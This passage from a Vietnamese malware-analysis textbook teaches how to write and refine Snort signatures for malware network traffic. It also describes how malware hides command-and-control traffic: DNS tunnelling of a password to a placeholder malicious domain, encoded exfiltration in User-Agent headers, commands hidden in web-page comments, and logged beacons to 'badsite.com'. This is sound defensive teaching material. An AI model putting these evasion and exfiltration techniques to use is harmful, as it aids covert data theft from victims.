- **Rule header** chứa hành động của rule (thường là `alert`), giao thức, địa chỉ IP nguồn và đích, cùng cổng nguồn và đích. Theo quy ước, các quy tắc Snort sử dụng các biến để cho phép tùy chỉnh môi trường của nó: biến `$HOME_NET` và `$EXTERNAL_NET` được dùng để chỉ định các dải địa chỉ IP mạng nội bộ và mạng bên ngoài, và `$HTTP_PORTS` định nghĩa các cổng được hiểu là lưu lượng HTTP. Trong trường hợp này, vì dấu `->` trong header chỉ ra rằng rule chỉ áp dụng cho lưu lượng đi theo một hướng, header `$HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS` sẽ khớp với lưu lượng outbound gửi tới các cổng HTTP.
- Phần **rule option** chứa các phần tử xác định xem quy tắc có được kích hoạt hay không. Các phần tử được kiểm tra thường được đánh giá theo thứ tự, và tất cả phải đúng thì quy tắc mới thực hiện hành động. Bảng _14.2_ mô tả các từ khóa được sử dụng trong quy tắc trên.

| **Từ khóa (Keyword)** | **Mô tả (Description)**                                                    |
| --------------------- | -------------------------------------------------------------------------- |
| `msg`                 | Thông điệp được in ra cùng với cảnh báo hoặc mục ghi log.                  |
| `content`             | Tìm kiếm nội dung cụ thể trong payload của gói tin.                        |
| `classtype`           | Phân loại tổng quát mà quy tắc thuộc về.                                   |
| `sid`                 | Định danh duy nhất cho quy tắc (Snort ID).                                 |
| `rev`                 | Đi kèm với `sid`, dùng để xác định duy nhất phiên bản sửa đổi của quy tắc. |

_Table 14.2: Mô tả các từ khóa trong rule Snort_

Bên trong phần giá trị của `content`, ký hiệu dấu gạch đứng (`|`) được dùng để biểu thị điểm bắt đầu và kết thúc của ký hiệu hex. Bất kỳ ký tự nào nằm giữa hai dấu gạch đứng đều được diễn giải dưới dạng giá trị hex thay vì văn bản thô. Vì vậy, `|0d 0a|` đại diện cho dấu ngắt dòng giữa các HTTP header (CRLF). Trong signature mẫu, tùy chọn `content` sẽ khớp với trường HTTP header `User-Agent: Wefa7e`, do các HTTP header được phân tách bằng hai ký tự `0x0D` và `0x0A`.

Bây giờ chúng ta đã có các chỉ số ban đầu và signature Snort. Thông thường, đặc biệt là với các kỹ thuật phân tích tự động như sandbox, việc phân tích các chỉ số mạng sẽ được coi là hoàn tất tại thời điểm này. Chúng ta đã có địa chỉ IP để chặn ở tường lửa, tên miền để chặn ở proxy, và một network signature để nạp vào IDS. Tuy nhiên, việc dừng lại ở đây sẽ là một sai lầm, vì các biện pháp hiện tại chỉ mang lại một cảm giác an toàn giả tạo.

#### b. Phân Tích Chuyên Sâu Cấu Trúc Gói Tin

Một nhà phân tích mã độc phải luôn cân bằng giữa tính kịp thời (expediency) và độ chính xác (accuracy). Đối với phân tích mã độc trên mạng, con đường nhanh chóng là chạy mã độc trong sandbox và giả định rằng kết quả thu được là đã đủ. Con đường chính xác là phải phân tích toàn diện mã độc theo từng hàm một.

Ví dụ trong phần trước là một mã độc thực tế mà một signature Snort đã được tạo ra và gửi tới danh sách signature của Emerging Threats. Emerging Threats là một tập hợp các quy tắc mã nguồn mở được phát triển bởi cộng đồng. Tác giả của chữ ký, trong bản gửi đề xuất quy tắc ban đầu, đã tuyên bố rằng ông đã thấy hai giá trị cho chuỗi User-Agent trong lưu lượng thực tế: `Wefa7e` và `Wee6a3`. Ông đã gửi quy tắc sau dựa trên quan sát của mình:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"ET TROJAN WindowsEnterpriseSuite FakeAV Dynamic User-Agent"; flow:established,to_server; content:"|0d 0a|User-Agent\: We"; isdataat:6,relative; content:"|0d 0a|"; distance:0; pcre:"/User-Agent\: We[a-z0-9]{4}\x0d\x0a/"; classtype:trojan-activity; reference:url,www.threatexpert.com/report.aspx?md5=d9bcb4e4d650a6ed4402fab8f9ef1387; sid:2010262; rev:1;)
```
Quy tắc này có một vài từ khóa bổ sung, được mô tả trong Bảng _14.3_.

| **Từ khóa (Keyword)** | **Mô tả (Description)**                                                                                                                           |
| --------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| `flow`                | Chỉ định các đặc tính của luồng TCP đang được kiểm tra, chẳng hạn như luồng đã được thiết lập hay chưa và các gói tin là từ client hay từ server. |
| `isdataat`            | Xác minh rằng dữ liệu tồn tại ở một vị trí nhất định (có thể tương đối so với vị trí khớp trước đó).                                              |
| `distance`            | Bổ nghĩa cho từ khóa `content`; chỉ ra số byte cần bỏ qua sau vị trí khớp mẫu gần nhất.                                                           |
| `pcre`                | Biểu thức chính quy tương thích Perl (Perl Compatible Regular Expression) chỉ định mẫu byte cần khớp.                                             |
| `reference`           | Tham chiếu đến một hệ thống hoặc tài liệu bên ngoài.                                                                                              |

_Table 14.3: Mô tả các từ khóa bổ sung trong rule Snort_

Mặc dù quy tắc này khá dài, nhưng cốt lõi của nó chỉ đơn giản là chuỗi User-Agent trong đó `We` được theo sau bởi chính xác 4 ký tự chữ-số (`We[a-z0-9]{4}`). Trong cú pháp PCRE được Snort sử dụng:

- Dấu ngoặc vuông (`[` và `]`) biểu thị một tập hợp các ký tự có thể có.
- Dấu ngoặc nhọn (`{` và `}`) biểu thị số lượng ký tự.
- Ký hiệu hex cho các byte có dạng `\xHH`.

Như đã lưu ý trước đó, các rule header cung cấp một số thông tin cơ bản, chẳng hạn như địa chỉ IP (cả nguồn và đích), cổng và giao thức. Snort theo dõi các phiên TCP, và làm như vậy cho phép bạn viết các quy tắc dành riêng cho lưu lượng truy cập của client hoặc server dựa trên quá trình bắt tay TCP (TCP handshake). Trong quy tắc này, từ khóa `flow` đảm bảo rằng quy tắc chỉ kích hoạt cho lưu lượng do máy client tạo ra bên trong một phiên TCP đã được thiết lập.

Sau một thời gian sử dụng, quy tắc này đã được sửa đổi một chút để loại bỏ các trường hợp dương tính giả liên quan đến phần mềm Webmin phổ biến, vốn tình cờ có chuỗi User-Agent khớp với mẫu do mã độc tạo ra. Dưới đây là quy tắc cập nhật:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"ET TROJAN WindowsEnterpriseSuite FakeAV Dynamic User-Agent"; flow:established,to_server; content:"|0d 0a|User-Agent|3a| We"; isdataat:6,relative; content:"|0d 0a|"; distance:0; content:!"User-Agent|3a| Webmin|0d 0a|"; pcre:"/User-Agent\: We[a-z0-9]{4}\x0d\x0a/"; classtype:trojan-activity; reference:url,www.threatexpert.com/report.aspx?md5=d9bcb4e4d650a6ed4402fab8f9ef1387; reference:url,doc.emergingthreats.net/2010262; reference:url,www.emergingthreats.net/cgi-bin/cvsweb.cgi/sigs/VIRUS/TROJAN_WindowsEnterpriseFakeAV; sid:2010262; rev:4;)
```
Dấu chấm than (`!`) đứng trước biểu thức content (`content:!"User-Agent|3a| Webmin|0d 0a|"`) thể hiện phép chọn phủ định logic (NOT), vì vậy quy tắc sẽ chỉ kích hoạt nếu nội dung được mô tả không xuất hiện.

Ví dụ này minh họa một số đặc điểm điển hình của quy trình phát triển chữ ký:

- **Thứ nhất**, hầu hết các chữ ký được tạo ra dựa trên việc phân tích lưu lượng mạng, chứ không phải dựa trên việc phân tích chính mã độc tạo ra lưu lượng đó. Trong ví dụ này, người gửi đã xác định hai chuỗi do mã độc tạo ra và suy đoán rằng mã độc sử dụng tiền tố `We` cộng với bốn ký tự chữ-số ngẫu nhiên bổ sung.
- **Thứ hai**, tính độc nhất của mẫu được chỉ định bởi chữ ký được kiểm tra để đảm bảo chữ ký không bị dương tính giả. Điều này được thực hiện bằng cách chạy chữ ký trên lưu lượng mạng thực tế và xác định các trường hợp xảy ra false positive. Trong trường hợp này, khi signature ban đầu được chạy trên lưu lượng thực, lưu lượng hợp lệ có User-Agent là `Webmin` đã gây ra dương tính giả. Do đó, chữ ký đã được tinh chỉnh bằng cách thêm một ngoại lệ cho lưu lượng hợp lệ đó.

Như đã đề cập trước đó, lưu lượng bắt được khi mã độc đang hoạt động thực tế có thể cung cấp các chi tiết khó nhân bản trong môi trường phòng thí nghiệm, vì nhà phân tích thường chỉ có thể thấy một phía của cuộc hội thoại. Mặt khác, số lượng mẫu lưu lượng trực tiếp có sẵn có thể rất ít. Một cách để đảm bảo bạn có một tập mẫu phong phú hơn là **lặp lại việc phân tích động mã độc nhiều lần**. Hãy tưởng tượng chúng ta chạy mã độc ví dụ nhiều lần và thu được danh sách các chuỗi User-Agent sau:
```
We4b58    We7d7f    Wea4ee
We70d3    Wea508    We6853
We3d97    We8d3a    Web1a7
Wed0d1    We93d0    Wec697
We5186    We90d8    We9753
We3e18    We4e8f    We8f1a
Wead29    Wea76b    Wee716
```
Đây là một cách dễ dàng để xác định các yếu tố ngẫu nhiên trong lưu lượng do mã độc tạo ra. Những kết quả này dường như xác nhận rằng các giả định được đưa ra bởi signature chính thức của Emerging Threats là chính xác. Kết quả cho thấy tập ký tự của bốn ký tự phía sau là chữ và số, và các ký tự được phân bổ ngẫu nhiên. Tuy nhiên, có một vấn đề khác với signature hiện tại (giả sử rằng các kết quả này là thật): Kết quả dường như sử dụng một tập ký tự nhỏ hơn tập ký tự được chỉ định trong signature. PCRE được liệt kê là `/User-Agent\: We[a-z0-9]{4}\x0d\x0a/`, nhưng kết quả thực tế cho thấy các ký tự chỉ giới hạn từ `a–f` thay vì toàn bộ `a–z`. Kiểu phân phối ký tự này thường được sử dụng khi các giá trị nhị phân được chuyển đổi trực tiếp thành biểu diễn thập lục phân (hex).

Như một thử nghiệm tư duy bổ sung, hãy tưởng tượng rằng kết quả từ nhiều lần chạy mã độc lại tạo ra các chuỗi User-Agent sau đây:
```
Wfbcc5    Wf4abd    Wea4ee
Wfa78f    Wedb29    W101280
W101e0f   Wfa72f    Wefd95
Wf617a    Wf8a9f    Wf286f
We9fc4    Wf4520    Wea6b8
W1024e7   Wea27f    Wfd1c1
W104a9b   Wff757    Wf2ab8
```
Mặc dù chữ ký có thể bắt được một số trường hợp, nhưng nó rõ ràng không lý tưởng vì bất kể thứ gì đang tạo ra lưu lượng đều có thể tạo ra tiền tố `Wf` và `W1` (ít nhất là vậy) bên cạnh `We`. Ngoài ra, từ mẫu này có thể thấy rõ rằng mặc dù User-Agent thường có sáu ký tự, nhưng nó hoàn toàn có thể có bảy ký tự.

Vì kích thước mẫu ban đầu chỉ là 2, các giả định được đưa ra về đoạn mã bên dưới có thể đã quá vội vàng. Mặc dù chúng ta không biết chính xác đoạn mã đang làm gì để tạo ra các kết quả được liệt kê, nhưng giờ đây chúng ta có thể đưa ra phỏng đoán tốt hơn. Việc chủ động tạo thêm mẫu bằng phương pháp động cho phép nhà phân tích đưa ra các giả định sáng suốt hơn về đoạn mã bên dưới.

Hãy nhớ lại rằng mã độc có thể sử dụng thông tin hệ thống làm đầu vào cho những gì nó gửi ra ngoài. Do đó, việc có ít nhất hai hệ thống tạo ra lưu lượng mẫu là rất hữu ích để ngăn chặn các giả định sai lầm về việc liệu một phần của beacon có phải là tĩnh hay không. Nội dung có thể là tĩnh đối với một máy chủ cụ thể, nhưng có thể thay đổi từ máy này sang máy khác.

Ví dụ: giả sử chúng ta chạy mã độc nhiều lần trên một máy chủ duy nhất và nhận được các kết quả sau:
```
Wefd95    Wefd95    Wefd95
Wefd95    Wefd95    Wefd95
Wefd95    Wefd95    Wefd95
Wefd95    Wefd95    Wefd95
```
Giả sử chúng ta không có bất kỳ lưu lượng mạng thực tế nào để đối chiếu, chúng ta có thể viết nhầm một rule chỉ để phát hiện duy nhất User-Agent này. Tuy nhiên, máy chủ tiếp theo chạy mã độc có thể tạo ra chuỗi này:
```
We9753    We9753    We9753
We9753    We9753    We9753
We9753    We9753    We9753
We9753    We9753    We9753
```
Khi viết chữ ký, điều quan trọng là phải xác định các yếu tố thay đổi của nội dung mục tiêu để chúng không bị đưa nhầm vào signature. Nội dung khác nhau ở mỗi lần chạy thử thường chỉ ra rằng nguồn dữ liệu có một seed ngẫu nhiên nào đó. Nội dung tĩnh đối với một host cụ thể nhưng lại thay đổi giữa các host khác nhau cho thấy nội dung đó được lấy từ một thuộc tính nào đó của host. Trong một số trường hợp may mắn, nội dung bắt nguồn từ một thuộc tính của host có thể đủ tính quy luật để đưa vào signature mạng.

### 14.4 Kết Hợp Phân Tích Tĩnh và Động Để Xây Dựng Chữ Ký Mạng

Cho đến nay, chúng ta đã sử dụng dữ liệu có sẵn hoặc đầu ra từ phân tích động để làm cơ sở tạo chữ ký. Mặc dù các biện pháp như vậy mang lại thông tin nhanh chóng, đôi khi chúng không thể xác định được các đặc tính sâu hơn của mã độc — những thứ có thể tạo ra các chữ ký chính xác hơn và tồn tại lâu hơn.

Nhìn chung, có hai mục tiêu của việc phân tích sâu hơn:

- **Bao quát đầy đủ chức năng (Full coverage of functionality):** Bước đầu tiên là tăng độ bao phủ mã bằng cách sử dụng phân tích động. Quy trình này được mô tả trong Chương 3, và thường liên quan đến việc cung cấp các đầu vào mới để mã nguồn tiếp tục rẽ nhánh vào các đường dẫn chưa được thực thi, nhằm xác định xem mã độc đang chờ nhận những gì. Việc này thường được thực hiện với một công cụ như INetSim hoặc với các script tự viết. Quá trình này có thể được định hướng bởi lưu lượng mạng thực tế của mã độc hoặc bởi phân tích tĩnh.
- **Hiểu rõ chức năng, bao gồm đầu vào và đầu ra:** Phân tích tĩnh có thể được sử dụng để xem nội dung được tạo ra ở đâu và như thế nào, cũng như dự đoán hành vi của mã độc. Phân tích động sau đó có thể được sử dụng để xác nhận hành vi dự kiến đã được dự đoán bởi phân tích tĩnh.

#### a. Nguy Cơ Của Việc Phân Tích Quá Mức (Overanalysis)

Nếu mục tiêu của việc phân tích mã độc chỉ là phát triển các chỉ báo mạng hiệu quả, thì bạn không cần phải hiểu từng khối lệnh đơn lẻ. Nhưng làm thế nào để bạn biết liệu mình đã có đủ sự hiểu biết về chức năng của một mẫu mã độc hay chưa? Bảng _14.4_ đề xuất một hệ thống phân cấp các cấp độ phân tích.

| **Cấp độ phân tích (Analysis level)**                              | **Mô tả (Description)**                                                                           |
| ------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------- |
| **Phân tích bề mặt (Surface analysis)**                            | Phân tích các chỉ báo ban đầu, tương đương với kết quả đầu ra của sandbox.                        |
| **Bao quát phương thức giao tiếp (Communication method coverage)** | Hiểu rõ đoạn mã nguồn cho từng loại kỹ thuật truyền thông mạng được sử dụng.                      |
| **Tái lập khả năng vận hành (Operational replication)**            | Khả năng tạo ra một công cụ cho phép vận hành đầy đủ mã độc (ví dụ: một bộ điều khiển C2 server). |
| **Bao quát toàn bộ mã nguồn (Code coverage)**                      | Hiểu rõ từng khối lệnh (block of code) trong chương trình.                                        |

_Table 14.4: Các cấp độ phân tích mã độc_

Cấp độ phân tích tối thiểu là hiểu biết tổng quát về các phương thức liên quan đến giao tiếp mạng. Tuy nhiên, để phát triển các chỉ báo mạng mạnh mẽ, nhà phân tích phải đạt đến mức độ nằm giữa **việc hiểu tất cả các phương thức giao tiếp được sử dụng** và **khả năng tái lập chức năng vận hành**.

Tái lập khả năng vận hành (operational replication) là khả năng tạo ra một công cụ mô phỏng gần giống công cụ mà kẻ tấn công đã tạo ra để điều khiển mã độc từ xa. Ví dụ: nếu mã độc hoạt động như một client, thì phần mềm máy chủ mã độc sẽ là một máy chủ lắng nghe các kết nối và cung cấp một giao diện điều khiển (console) mà nhà phân tích có thể sử dụng để kích hoạt mọi chức năng mà mã độc có thể thực hiện, giống hệt như kẻ tạo ra mã độc có thể làm.

Các signature hiệu quả và linh hoạt có thể phân biệt giữa lưu lượng truy cập thông thường và lưu lượng liên quan đến mã độc. Đây là một thách thức, vì các tác giả mã độc liên tục cải tiến mã độc của chúng để hòa lẫn hiệu quả vào lưu lượng bình thường. Trước khi giải quyết cơ chế phân tích kỹ thuật, chúng ta sẽ thảo luận về lịch sử của mã độc và cách các chiến lược ngụy trang đã thay đổi.

#### b. Kỹ Thuật Trà Trộn Vào Lưu Lượng Hợp Lệ

Trốn tránh bị phát hiện là một trong những mục tiêu hàng đầu của kẻ vận hành backdoor, vì bị phát hiện sẽ dẫn đến việc kẻ tấn công vừa mất quyền truy cập vào nạn nhân hiện tại, vừa tăng nguy cơ bị phát hiện trong tương lai.

Mã độc đã tiến hóa để trốn tránh sự phát hiện bằng cách cố gắng hòa lẫn vào môi trường thông thường thông qua các kỹ thuật sau.

#### c. Giả Mạo Các Giao Thức Mạng Chuẩn

Một cách mà kẻ tấn công hòa lẫn vào nền lưu lượng chung là sử dụng các giao thức truyền thông phổ biến nhất, để hoạt động độc hại của chúng có nhiều khả năng bị chìm nghỉm trong đám đông. Khi Internet Relay Chat (IRC) phổ biến vào những năm 1990, những kẻ tấn công đã sử dụng nó rộng rãi, nhưng khi lưu lượng IRC hợp pháp giảm dần, các chuyên gia phòng thủ bắt đầu theo dõi lưu lượng IRC một cách cẩn thận, và kẻ tấn công gặp khó khăn hơn trong việc hòa lẫn.

Vì HTTP, HTTPS và DNS là các giao thức được sử dụng rộng rãi nhất trên Internet hiện nay, những kẻ tấn công chủ yếu sử dụng các giao thức này. Các giao thức này không bị giám sát quá gắt gao vì cực kỳ khó theo dõi một lượng lưu lượng khổng lồ như vậy. Ngoài ra, chúng ít có khả năng bị chặn hơn do những hệ lụy tiềm ẩn của việc vô tình chặn đứng một lượng lớn lưu lượng thông thường.

Kẻ tấn công hòa lẫn bằng cách sử dụng các giao thức phổ biến theo cách tương tự như lưu lượng hợp pháp. Ví dụ: những kẻ tấn công thường sử dụng HTTP cho tín hiệu beaconing, vì về cơ bản beacon là một yêu cầu nhận thêm chỉ thị, giống như yêu cầu HTTP GET, và chúng sử dụng mã hóa HTTPS để che giấu bản chất và mục đích của các giao tiếp mạng.

Tuy nhiên, kẻ tấn công cũng lạm dụng các giao thức tiêu chuẩn để đạt được các mục tiêu chỉ huy và kiểm soát (C2):

- Mặc dù DNS được dự định dùng để trao đổi thông tin nhanh chóng và ngắn gọn, một số kẻ tấn công thực hiện **DNS tunneling** (tạo đường hầm truyền dữ liệu dài qua DNS) bằng cách mã hóa thông tin và nhúng vào các trường vốn có mục đích sử dụng khác. Tên miền DNS có thể được tạo ra dựa trên dữ liệu mà kẻ tấn công muốn truyền qua. Mã độc cố gắng truyền mật khẩu bí mật của người dùng có thể thực hiện một yêu cầu DNS cho tên miền `[www.thepasswordisflapjack.maliciousdomain.com](https://www.thepasswordisflapjack.maliciousdomain.com)`.
- Kẻ tấn công cũng có thể lạm dụng tiêu chuẩn HTTP. Phương thức GET nhằm mục đích yêu cầu thông tin, và phương thức POST nhằm mục đích gửi dữ liệu. Vì được dành cho các truy vấn, phương thức GET cung cấp một lượng không gian hạn chế cho dữ liệu (thường khoảng 2KB). Spyware thường xuyên đưa các chỉ thị về những gì nó muốn thu thập vào trong đường dẫn URI hoặc chuỗi truy vấn (query) của một HTTP GET, thay vì đặt trong phần body của thông điệp.

Tương tự, trong một mẫu mã độc được các tác giả quan sát, toàn bộ thông tin từ máy chủ bị nhiễm đã được nhúng vào các trường `User-Agent` của nhiều yêu cầu HTTP GET. Hai yêu cầu GET sau đây cho thấy những gì mã độc tạo ra để gửi về một dấu nhắc lệnh (command prompt) kèm theo danh sách thư mục:
```http
GET /world.html HTTP/1.1
User-Agent: %^&NQvtmw3eVhTfEBnzVw/aniIqQB6qQgTvmxJzVhjqJMjcHtEhI97n9+yy+duq+h3b0RFzThrfE9AkK9OYIt6bIM7JUQJdViJaTx+q+h3dm8jJ8qfG+ezm/C3tnQgvVx/eECBZT87NTR/fUQkxmgcGLq
Cache-Control: no-cache

GET /world.html HTTP/1.1
User-Agent: %^&EBTaVDPYTM7zVs7umwvhTM79ECrrmd7ZVd7XSQFvV8jJ8s7QVhcgVQOqOhPdUQBXEAkgVQFvms7zmd6bJtSfHNSdJNEJ8qfGEA/zmwPtnC3d0M7aTs79KvcAVhJgVQPZnDIqSQkuEBJvnD/zVwneRAyJ8qfGIN6aIt6aIt6cI86qI9mlIe+q+OfqE86qLA/FOtjqE86qE86qE86qHqfGIN6aIt6aIt6cI86qI9mlIe+q+OfqE86qLA/FOtjqE86qE86qE86qHsjJ8tAbHeEbHeEbIN6qE96jKt6kEABJE86qE9cAMPE4E86qE86qE86qEA/vmhYfVi6J8t6dHe6cHeEbI9uqE96jKtEkEABJE86qE9cAMPE4E86qE86qE86qEATrnw3dUR/vmbfGIN6aINAaIt6cI86qI9ulJNmq+OfqE86qLA/FOtjqE86qE86qE86qNRuq/C3tnQgvVx/e9+ybIM2eIM2dI96kE86cINygK87+NM6qE862/AvMLs6qE86qE86qE87NnCBdn87JTQkg9+yqE86qE86qE86qE86qE86bEATzVCOymduqE86qE86qE86qE86qE96qSxvfTRIJ8s6qE86qE86qE86qE86qE9Sq/CvdGDIzE86qK8bgIeEXItObH9SdJ87s0R/vmd7wmwPv9+yJ8uIlRA/aSiPYTQkfmd7rVw+qOhPfnCvZTiJmMtj
Cache-Control: no-cache
```
Kẻ tấn công tạo đường hầm cho các liên lạc độc hại bằng cách lạm dụng các trường trong giao thức để tránh bị phát hiện. Mặc dù lưu lượng lệnh mẫu trông rất khác thường đối với một con mắt đã được đào tạo, những kẻ tấn công đang đặt cược rằng bằng cách giấu nội dung của chúng ở một nơi khác lạ, chúng có thể vượt qua sự giám sát. Chẳng hạn, nếu những người phòng thủ chỉ tìm kiếm nội dung trong phần body của phiên HTTP trong mẫu này, họ sẽ không thấy bất kỳ dữ liệu nào.

Các tác giả mã độc đã phát triển các kỹ thuật của mình theo thời gian để làm cho mã độc trông ngày càng chân thực hơn. Sự tiến hóa này đặc biệt rõ ràng trong cách mã độc xử lý một trường HTTP phổ biến: `User-Agent`.

Khi mã độc lần đầu tiên bắt đầu bắt chước các yêu cầu web, nó ngụy trang lưu lượng của mình giống như một trình duyệt web. Trường User-Agent này thường cố định dựa trên trình duyệt và các thành phần đã cài đặt khác nhau. Dưới đây là một chuỗi User-Agent mẫu từ một máy Windows:
```
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; .NET4.0C; .NET4.0E)
```
1. **Thế hệ đầu tiên** của mã độc bắt chước trình duyệt web đã sử dụng các chuỗi User-Agent hoàn toàn tự bịa đặt. Do đó, mã độc này rất dễ bị phát hiện chỉ bằng riêng trường User-Agent.
2. **Thế hệ tiếp theo** của mã độc đã đưa vào các biện pháp để đảm bảo rằng chuỗi User-Agent của nó sử dụng một trường phổ biến trong lưu lượng mạng thực tế. Mặc dù điều đó giúp kẻ tấn công hòa lẫn tốt hơn, nhưng những người phòng thủ mạng vẫn có thể sử dụng một trường User-Agent tĩnh để tạo ra các chữ ký hiệu quả. Dưới đây là một ví dụ về chuỗi User-Agent chung nhưng phổ biến mà mã độc có thể sử dụng:
```
    Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
```
1. **Trong giai đoạn tiếp theo**, mã độc giới thiệu một cơ chế đa lựa chọn. Mã độc sẽ chứa một vài trường User-Agent — tất cả đều thường được sử dụng bởi lưu lượng bình thường — và nó sẽ chuyển đổi luân phiên giữa chúng để trốn tránh bị phát hiện. Ví dụ: mã độc có thể chứa các chuỗi User-Agent sau:
```
    Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2)
    Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; .NET CLR 1.1.4322)
```
4. **Kỹ thuật User-Agent mới nhất** sử dụng một lời gọi thư viện gốc của hệ thống để tạo các yêu cầu bằng chính đoạn mã mà trình duyệt sử dụng. Với kỹ thuật này, chuỗi User-Agent từ mã độc (và hầu hết các khía cạnh khác của yêu cầu) hoàn toàn không thể phân biệt được với chuỗi User-Agent của chính trình duyệt thực sự.

#### d. Tận Dụng Hạ Tầng Hợp Pháp Của Bên Thứ Ba

Kẻ tấn công tận dụng các tài nguyên hợp pháp sẵn có để che giấu mã độc. Nếu mục đích duy nhất của một máy chủ là phục vụ các yêu cầu của mã độc, nó sẽ dễ bị phát hiện hơn nhiều so với một máy chủ cũng được sử dụng cho các mục đích hợp pháp.

Kẻ tấn công có thể chỉ đơn giản là sử dụng một máy chủ có nhiều mục đích sử dụng khác nhau. Các mục đích sử dụng hợp pháp sẽ che mờ các mục đích sử dụng độc hại, vì việc điều tra địa chỉ IP cũng sẽ chỉ ra các mục đích sử dụng hợp lệ đó.

Một cách tiếp cận tinh vi hơn là **nhúng các lệnh cho mã độc vào bên trong một trang web hợp pháp**. Dưới đây là những dòng đầu tiên của một trang web mẫu đã bị kẻ tấn công chiếm dụng:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title> Roaring Capital | Seed Stage Venture Capital Fund in Chicago</title>
<meta property="og:title" content=" Roaring Capital | Seed Stage Venture Capital Fund in Chicago"/>
<meta property="og:site_name" content="Roaring Capital"/>
<!-- -->
<!-- adsrv?bG9uZ3NsZWVw -->
<!--<script type="text/javascript" src="/js/dotastic.custom.js"></script>-->
<!-- OH -->
```
Dòng thứ ba tính từ dưới lên thực chất là một lệnh đã được mã hóa gửi tới mã độc, yêu cầu nó tạm ngủ (sleep) trong một thời gian dài trước khi kiểm tra lại. (Chuỗi Base64 `bG9uZ3NsZWVw` khi giải mã ra là `longsleep`). Mã độc đọc lệnh này và gọi lệnh sleep để tạm dừng tiến trình của nó. Từ góc độ của người phòng thủ, cực kỳ khó để phân biệt giữa một yêu cầu hợp lệ đối với một trang web thực tế và một mã độc thực hiện cùng yêu cầu đó nhưng lại trích xuất một phần của trang web làm lệnh điều khiển.

#### e. Khai Thác Đặc Trưng Báo Hiệu (Beaconing) Của Client

Một xu hướng trong thiết kế mạng là sự gia tăng sử dụng Network Address Translation (NAT) và các giải pháp proxy, vốn che giấu máy chủ thực sự thực hiện các yêu cầu đi ra ngoài. Mọi yêu cầu đều trông như thể chúng bắt nguồn từ địa chỉ IP của proxy. Những kẻ tấn công đang chờ đợi các yêu cầu từ mã độc cũng gặp khó khăn tương tự trong việc xác định máy nạn nhân bị nhiễm nào đang giao tiếp với chúng.

Một kỹ thuật mã độc rất phổ biến là **xây dựng hồ sơ (profile) của máy nạn nhân và truyền định danh duy nhất đó trong tín hiệu beacon của nó**. Điều này cho kẻ tấn công biết máy nào đang cố gắng bắt đầu giao tiếp trước khi quá trình bắt tay kết nối hoàn tất. Việc định danh duy nhất máy chủ nạn nhân này có thể có nhiều hình thức, bao gồm một chuỗi được mã hóa đại diện cho thông tin cơ bản về máy chủ hoặc một hàm băm (hash) của thông tin hệ thống duy nhất. Một người phòng thủ được trang bị kiến thức về cách mã độc định danh các máy chủ riêng biệt có thể sử dụng thông tin đó để nhận diện và truy vết các máy tính bị nhiễm trong mạng.

#### f. Đọc Hiểu Mã Lệnh Bổ Trợ Xung Quanh

Có hai loại hoạt động mạng: gửi dữ liệu và nhận dữ liệu. Việc phân tích dữ liệu gửi đi thường dễ dàng hơn, vì mã độc tạo ra các mẫu thuận tiện cho việc phân tích mỗi khi nó chạy.

Chúng ta sẽ xem xét hai mẫu mã độc trong phần này. Mẫu đầu tiên tạo và gửi đi một beacon, còn mẫu thứ hai nhận lệnh từ một trang web bị xâm nhập.

Dưới đây là các đoạn trích từ nhật ký lưu lượng (traffic log) cho các hoạt động của một mẫu mã độc giả định trên mạng thực tế. Trong các nhật ký lưu lượng này, mã độc thực hiện yêu cầu GET sau:
```http
GET /1011961917758115116101584810210210256565356 HTTP/1.1
Accept: * / *
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: www.badsite.com
Connection: Keep-Alive
Cache-Control: no-cache
```
Chạy mã độc trong môi trường phòng thí nghiệm (hoặc sandbox), chúng ta nhận thấy mã độc thực hiện một yêu cầu tương tự như sau:
```http
GET /14586205865810997108584848485355525551 HTTP/1.1
Accept: * / *
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: www.badsite.com
Connection: Keep-Alive
Cache-Control: no-cache
```
Sử dụng Internet Explorer để duyệt tới một trang web, chúng ta thấy User-Agent tiêu chuẩn trên hệ thống thử nghiệm này như sau:
```
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648)
```

Với các chuỗi User-Agent khác nhau, có vẻ như chuỗi User-Agent của mã độc này đã được hardcode cố định. Thật không may, mã độc dường như đang sử dụng một chuỗi User-Agent khá phổ biến, điều này có nghĩa là việc cố gắng tạo chữ ký dựa trên chuỗi User-Agent tĩnh đơn độc này nhiều khả năng sẽ dẫn đến rất nhiều cảnh báo dương tính giả. Mặt tích cực là một chuỗi User-Agent tĩnh có thể được kết hợp với các yếu tố khác để tạo ra một signature hiệu quả.

Bước tiếp theo là thực hiện phân tích động mã độc bằng cách chạy mã độc thêm một vài lần nữa, như được mô tả trong phần trước. Trong các lần thử này, các yêu cầu GET đều giống nhau, ngoại trừ URI là khác nhau ở mỗi lần chạy. Kết quả các URI tổng thể thu được như sau:
```
/1011961917758115116101584810210210256565356 (lưu lượng thực tế)
/14586205865810997108584848485355525551
/7911554172581099710858484848535654100102
/2332511561845810997108584848485357985255
```
Dường như có thể có một số ký tự chung ở giữa các chuỗi này (`5848`), nhưng quy luật của nó không dễ nhận biết ngay. Phân tích tĩnh có thể được sử dụng để tìm ra chính xác cách mà yêu cầu này đang được tạo ra.

#### g. Định Vị Phân Đoạn Mã Xử Lý Mạng

